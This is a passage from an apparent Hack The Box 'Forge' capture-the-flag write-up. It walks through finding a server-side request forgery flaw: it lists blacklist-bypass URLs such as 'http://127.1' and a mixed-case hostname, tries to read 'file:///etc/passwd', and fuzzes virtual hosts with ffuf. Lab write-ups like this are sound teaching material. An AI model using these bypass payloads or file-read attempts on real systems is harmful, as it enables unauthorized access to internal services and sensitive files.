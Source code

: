 ```
http://127.1
http://LOCALHOST
```

trying : `file:///etc/passwd `
returns :

```
Invalid protocol! Supported protocols: http, https
```

so now we know the following :

- we have ftp running internally
- we have ssrf to access local things
- accepts http and https only , ftp is not supported

### More Enumeration :

Typically in HTB , another Vhost is a common scenario so trying to get Fuzzing it with `ffuf`

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million 5000.txt -u http://forge.htb/ -H "Host: FUZZ.forge.htb" -fc 302,404
```

output:

```
admin                   [Status: 200, Size: 27, Words: 4, Lines: 2]
```

add `admin.forge.htb` to `/etc/hosts`

trying to access it :

![image](/assets/images/Forge/forge_5.png)

so putting things together we will have one conclusion to continue from :

`forge.htb` can make a valid request to `admin.forge.htb` , we can achieve that:

Back to the upload from url vulnerable Function and trying `http://admin.forge.htb`

returns the blacklist message , so `forge.htb` seems to Be blocked also.

trying : `http://admin.forge.HTB` then downloading the page and see contents :

![image](/assets/images/Forge/forge_6.png)